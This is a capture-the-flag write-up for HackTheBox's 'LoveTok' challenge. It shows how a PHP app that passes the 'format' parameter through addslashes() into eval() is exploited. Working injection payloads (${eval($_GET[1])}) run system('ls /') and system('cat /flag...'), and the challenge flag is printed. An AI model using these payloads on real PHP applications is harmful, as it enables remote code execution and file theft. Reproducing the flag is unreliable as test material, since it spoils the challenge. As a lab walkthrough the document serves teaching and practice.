# [LoveTok](https://app.hackthebox.com/challenges/lovetok)

## CHALLENGE DESCRIPTION

True love is tough, and even harder to find. Once the sun has set, the lights close and the bell has rung... you find yourself licking your wounds and contemplating human existence. You wish to have somebody important in your life to share the experiences that come with it, the good and the bad. This is why we made LoveTok, the brand new service that accurately predicts in the threshold of milliseconds when love will come knockin' (at your door). Come and check it out, but don't try to cheat love because love cheats back. 💛

## Scan

Burpsuite scanner: detected `PHP code injection`.

- request:

  ```http
  GET /?format=r%7b$%7bsleep(hexdec(dechex(20)))%7d%7d HTTP/1.1
  ```

- Issue detail: The format parameter appears to be vulnerable to PHP code injection attacks. The submitted value appears to be placed into a dynamically evaluated PHP statement, within a `double-quoted` context.  The payload `{${sleep(hexdec(dechex(20)))}}` was submitted in the format parameter. The application took 20004 milliseconds to respond to the request, compared with 0 milliseconds for the original request, indicating that the injected PHP code caused a time delay.

## Source code review

TimeController.php:

```php
<?php
class TimeController
{
    public function index($router)
    {
        $format = isset($_GET['format']) ? $_GET['format'] : 'r';
        $time = new TimeModel($format);
        return $router->view('index', ['time' => $time->getTime()]);
    }
}
```

- user controlled parameter `format` is passed to `TimeModel` class, then the `getTime` function is called.

TimeModel.php:

```php
<?php
class TimeModel
{
    public function __construct($format)
    {
        $this->format = addslashes($format);

        [ $d, $h, $m, $s ] = [ rand(1, 6), rand(1, 23), rand(1, 59), rand(1, 69) ];
        $this->prediction = "+${d} day +${h} hour +${m} minute +${s} second";
    }

    public function getTime()
    {
        eval('$time = date("' . $this->format . '", strtotime("' . $this->prediction . '"));');
        return isset($time) ? $time : 'Something went terribly wrong';
    }
}
```

- 1. `format` variable -> addslashes() method
- 2. `format` variable -> eval() method => code injection happened here.

## addslashes() method

Returns a string with backslashes added before characters that need to be escaped. These characters are:

- single quote (')
- double quote (")
- backslash (\)
- NUL (the NUL byte)

## bypass addslashes() + eval()

because just only the `format` parameter go through `addslashes()` method, we can use another parameter to bypass this.

```http
GET /?format=${eval($_GET[1])}&1=phpinfo()%3b HTTP/1.1
```

=> phpinfo() page is returned

## get flag

solution 1: i tried oob interaction but failed both with burp suite collaborator and pipedream, maybe it's blocked.

solution 2: directly echo

- find flag file name:

  ```http
  GET /?format=${eval($_GET[1])}&1=echo+system('ls+/')%3b HTTP/1.1

  HTTP/1.1 200 OK

  bin
  boot
  dev
  entrypoint.sh
  etc
  flagNqwnA
  home
  ...
  ```

- get the flag:

  ```http
  GET /?format=${eval($_GET[1])}&1=echo+system('cat+/flagNqwnA')%3b HTTP/1.1

  HTTP/1.1 200 OK

  HTB{wh3n_l0v3_g3ts_eval3d_sh3lls_st4rt_p0pp1ng}
  ```

## References

bypass addslashes():

- <https://www.programmersought.com/article/30723400042/>
- <https://0xalwayslucky.gitbook.io/cybersecstack/web-application-security/php>
